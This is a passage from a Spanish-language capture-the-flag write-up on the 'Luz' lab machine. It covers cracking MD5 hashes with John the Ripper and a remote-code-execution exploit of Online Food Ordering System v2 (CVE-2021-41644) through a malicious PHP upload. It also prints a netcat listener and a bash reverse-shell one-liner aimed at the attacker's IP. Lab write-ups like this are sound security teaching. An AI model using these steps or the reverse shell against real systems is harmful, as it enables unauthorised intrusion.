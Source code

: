 ```bash
 john -w:/usr/share/wordlists/rockyou.txt --format=Raw-MD5 onlineFood_MD5Hashes.txt
...
jsmith123        (?)
...
```

Logramos romper el hash y obtenemos la contraseña sin descifrar. PEEEERO al probarla con los logins no logramos iniciar sesión por ningún lado ):

<strong><span style="color: pink">ESTE</span> <span style="color: yellow">ES</span> <span style="color: red">EL</span> <span style="color: green">BENDITO</span> <span style="color: orange">RABBIT</span> <span style="color: blue">HOLE</span>!</strong>

Recorriendo todas las bases de datos y su información no logré llegar a ningún lado... Recordamos cositas de SQLi, creamos automatización y crackeamos cositas. Ya eso es ganancia!

En ese punto me fui para atrás (me caí 😁) y busque más con respecto al software de comidas en la web, ahí fue cuando me di cuenta de que había estado re ciego :P

## RCE - Online Food Ordering v2 [📌](#rce-online-food-ordering-v2) {#rce-online-food-ordering-v2}

Buscando `Online Food Ordering System V2 exploit` encontramos:

* [CVE-2021-41644](https://nvd.nist.gov/vuln/detail/CVE-2021-41644).

La explotación se logra bypasseando (saltando) los filtros que existen en las subidas de imágenes mediante un archivo **.php** malicioso (: En el mismo blog (o en la web) encontramos un [PoC](https://www.exploit-db.com/exploits/50305) que descargaremos...

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HMV/luz/Luz_bash_cat_CVE+2023+41644_exploitPart.png" style="width: 70%;"/>

Ahí se ve que solamente crea el objeto PHP y para hacerlo interactivo hace que una variable (`...$_REQUEST["cmd"]..`) sea la que tome los comandos a ejecutar en el sistema. Lo demás es diseño.

Pues probémoslo:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HMV/luz/Luz_bash_PY_CVE+2023+41644_idANDhostname_RCE.png" style="width: 70%;"/>

Liiiiisssstoooooos! En solo 1 minuto obtuvimos ejecución remota de comandooooos! Obtengamos una verdadera shell, ya que ahí tenemos una simulación de ella.

Inicialmente, nos ponemos en escucha por un puerto (`nc -lvp 4433`, en mi caso), esto para indicarle posteriormente a la máquina víctima que se conecte a nuestra IP y a ese puerto para finalmente obtener una **bash**:

```bash
bash -c 'bash -i >& /dev/tcp/192.168.100.7/4433 0>&1'
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HMV/luz/Luz_bash_nc_www-data_RevSH.png" style="width: 80%;"/>

Perfecto, ya tenemos una terminal, pero nos falta lo importante, hacerla interactiva. Esto para evitar que al hacer **CTRL+C** perdamos la sesión, además para tener histórico de comandos y poder movernos entre ellos...
